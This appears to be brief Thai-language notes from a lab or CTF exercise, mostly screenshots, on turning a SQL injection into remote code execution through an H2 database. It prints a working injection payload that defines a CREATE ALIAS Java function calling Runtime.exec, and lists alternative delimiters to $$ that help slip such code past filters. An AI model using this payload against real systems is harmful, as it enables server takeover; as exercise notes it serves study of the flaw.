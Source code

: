 

![alt text](image.png)

ทำ sql injection ได้

![alt text](image-1.png)

![alt text](image-5.png)

ใช้ ้H2 database 

https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2

![alt text](image-3.png)

![alt text](image-4.png)

```
';CREATE ALIAS REVEXEC AS 'String shellexec(String cmd) throws java.io.IOException {
java.util.Scanner s = new
java.util.Scanner (Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
return s.hasNext() ? s.next() : ""; }'; -- -

```

`$$` ในบริบทที่คุณแสดงให้ดูเป็นส่วนหนึ่งของไวยากรณ์ของฐานข้อมูล H2 Database สำหรับการสร้าง alias หรือ function

ในระบบฐานข้อมูล H2:
- `CREATE ALIAS` ใช้สำหรับสร้างฟังก์ชันที่กำหนดเอง
- `$$` ใช้เป็นตัวคั่น (delimiter) สำหรับกำหนดจุดเริ่มต้นและจุดสิ้นสุดของโค้ด Java ที่จะรันภายในฐานข้อมูล

ตัวอย่างโครงสร้างทั่วไป:
```sql
CREATE ALIAS function_name AS $$
    // Java code here
$$;
```

H2 Database อนุญาตให้เขียน Java code โดยตรงภายในฐานข้อมูลเพื่อสร้างฟังก์ชันที่กำหนดเอง แต่การใช้งานแบบนี้ต้องระมัดระวังเรื่องความปลอดภัยมาก เพราะสามารถรันโค้ดใดๆ ก็ได้บนเซิร์ฟเวอร์

สำหรับการแทนที่ `$$` delimiter ใน H2 Database มีตัวเลือกหลายแบบ:

## ตัวคั่นอื่นๆ ที่ใช้ได้
```sql
-- ใช้ single quotes
CREATE ALIAS function_name AS '
    // Java code here
';

-- ใช้ custom delimiter อื่น
CREATE ALIAS function_name AS $BODY$
    // Java code here
$BODY$;

-- ใช้ delimiter แบบอื่น
CREATE ALIAS function_name AS $CODE$
    // Java code here
$CODE$;
```


![alt text](image-2.png)